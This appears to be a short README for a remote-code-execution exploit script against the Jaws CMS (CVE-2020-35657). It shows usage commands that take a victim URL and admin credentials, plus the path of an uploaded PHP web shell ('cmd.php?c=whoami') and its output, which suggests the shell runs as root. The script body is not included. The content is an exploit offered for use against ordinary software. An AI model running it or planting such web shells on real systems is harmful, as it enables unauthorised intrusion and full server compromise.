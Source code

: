 # jaws-rce-via-theme CVE-2020-35657


python jaws-rce2.py

[+]Usage python jaws-rce2.py http://victim.com/ admin admin

python jaws-rce2.py http://192.168.1.98/jaws-master/jaws-master/ jawsadmin admin


Shell Location=== http://192.168.1.98/jaws-master/jaws-master/data/themes/cmd.php?c=whoami

GIF89a

root
